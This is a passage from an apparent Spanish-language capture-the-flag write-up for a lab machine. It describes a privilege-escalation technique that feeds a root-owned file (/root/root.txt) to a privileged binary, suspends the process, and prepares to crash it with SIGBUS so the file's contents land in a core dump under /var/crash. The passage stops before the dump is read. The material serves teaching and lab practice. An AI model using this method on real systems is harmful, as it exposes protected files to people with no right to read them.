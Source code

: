 ```c
        scanf("%99s", path);
        FILE *fp = fopen(path, "a");
        if (fp != NULL) {
            fputs(summary, fp);
            fclose(fp);
        } else {
            printf("Could not open %s for writing\n", path);
        }
    }

    return 0;
}
```

Tras analizar esta parte del código (suprimí todo lo anterior por ser irrelevante), vemos que se está haciendo uso de [CoreDump](https://es.wikipedia.org/wiki/Volcado_de_memoria)

#### ¿Pero qué hace exactamente Core Dump?
> Cuando ocurre una excepción mientras el programa se está ejecutando, se guardan en un archivo los datos almacenados en memoria por el binario.

Por lo tanto necesitamos provocar una excepción durante la ejecución de este programa para que sus datos queden volcados.
Generalmente estos datos se guardan en la ruta **`/var/crash`**

```console
dasith@secret:/opt$ ls /var/crash
_opt_count.0.crash  _opt_countzz.0.crash
```

Primero ejecutamos el binario, le pasamos por ejemplo **/root/root.txt** como ruta y presionamos las teclas Ctrl+Z para dejarlo en segundo plano.

#### Antes de la excepción:
```console
dasith@secret:/opt$ ./count
Enter source file/directory name: /root/root.txt

Total characters = 33
Total words      = 2
Total lines      = 2
Save results a file? [y/N]: ^Z
[1]+  Stopped                 ./count
dasith@secret:/opt$
```

Ahora tenemos que buscar el PID del proceso y matarlo con **`kill`** enviando una señal BUS.
Existen muchas otras señales, vamos a listarlas:

```console
dasith@secret:/opt$ kill -l
 1) SIGHUP	     2) SIGINT	     3) SIGQUIT	     4) SIGILL	     5) SIGTRAP
 6) SIGABRT	     7) SIGBUS	     8) SIGFPE	     9) SIGKILL	    10) SIGUSR1
11) SIGSEGV	    12) SIGUSR2	    13) SIGPIPE	    14) SIGALRM	    15) SIGTERM
16) SIGSTKFLT	17) SIGCHLD	    18) SIGCONT	    19) SIGSTOP	    20) SIGTSTP
21) SIGTTIN	    22) SIGTTOU	    23) SIGURG	    24) SIGXCPU	    25) SIGXFSZ
26) SIGVTALRM	27) SIGPROF	    28) SIGWINCH	29) SIGIO	    30) SIGPWR
31) SIGSYS      34) SIGRTMIN	35) SIGRTMIN+1	36) SIGRTMIN+2	37) SIGRTMIN+3
38) SIGRTMIN+4	39) SIGRTMIN+5	40) SIGRTMIN+6	41) SIGRTMIN+7	42) SIGRTMIN+8
43) SIGRTMIN+9	44) SIGRTMIN+10	45) SIGRTMIN+11	46) SIGRTMIN+12	47) SIGRTMIN+13
48) SIGRTMIN+14	49) SIGRTMIN+15	50) SIGRTMAX-14	51) SIGRTMAX-13	52) SIGRTMAX-12
53) SIGRTMAX-11	54) SIGRTMAX-10	55) SIGRTMAX-9	56) SIGRTMAX-8	57) SIGRTMAX-7
58) SIGRTMAX-6	59) SIGRTMAX-5	60) SIGRTMAX-4	61) SIGRTMAX-3	62) SIGRTMAX-2
63) SIGRTMAX-1	64) SIGRTMAX
```
